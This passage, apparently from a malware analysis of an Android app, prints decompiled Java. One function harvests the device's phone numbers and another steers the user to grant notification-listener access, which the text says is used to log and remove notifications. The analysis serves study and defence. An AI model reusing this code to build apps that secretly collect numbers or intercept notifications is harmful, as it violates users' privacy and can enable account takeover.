 ```java
    public static String[] getPhoneNumbers(Context context) {
        ArrayList arrayList = new ArrayList();
        SubscriptionManager from = SubscriptionManager.from(context);
        if (context.checkCallingOrSelfPermission("android.permission.READ_PHONE_STATE") == 0) {
            Log("getPhoneNumbers", "Permissions ok");
            List<SubscriptionInfo> activeSubscriptionInfoList = from.getActiveSubscriptionInfoList();
            if (activeSubscriptionInfoList != null) {
                Log("getPhoneNumbers", "subInfoList size: " + activeSubscriptionInfoList.size());
                Log("getPhoneNumbers", "subInfoList: " + activeSubscriptionInfoList.toString());
                for (SubscriptionInfo subscriptionInfo : activeSubscriptionInfoList) {
                    Log("getPhoneNumbers", "+ subscriptionInfo: " + subscriptionInfo);
                    Log("getPhoneNumbers", "+ number: " + subscriptionInfo.getNumber());
                    arrayList.add(subscriptionInfo.getNumber());
                }
            } else {
                Log("getPhoneNumbers", "subInfoList is null");
                arrayList.add("No numbers");
            }
        } else {
            Log("getPhoneNumbers", "Permissions check failed");
        }
        if (arrayList.isEmpty() || arrayList.contains(null) || arrayList.get(0) == null) {
            return new String[]{"No numbers"};
        }
        return (String[]) arrayList.toArray(new String[0]);
    }
```

`SettingsWrite` function is responsible for writing shared preferences with the second argument being the key and the third being the value.

#### 2 - Notification Listener

Enables a notification listener. The listener is launched with the flag `FLAG_ACTIVITY_NEW_TASK` which ensures the settings activity is launched as a new task.

It logs notifications (app, title, text) and actions. and can also remove notifications.

```java
    public static void grantNotificationListenerAccess(Context context) {
        if (isNotificationServiceEnabled(context)) {
            return;
        }
        if (Build.VERSION.SDK_INT >= 30) {
            SettingsWrite(context, Constants.lastProcessedScreenTag, "com.android.settings.settings$notificationaccesssettingsactivity");
        }
        Intent intent = new Intent("android.settings.ACTION_NOTIFICATION_LISTENER_SETTINGS");
        intent.addFlags(268435456); /* FLAG_ACTIVITY_NEW_TASK */
        context.startActivity(intent);
    }
```
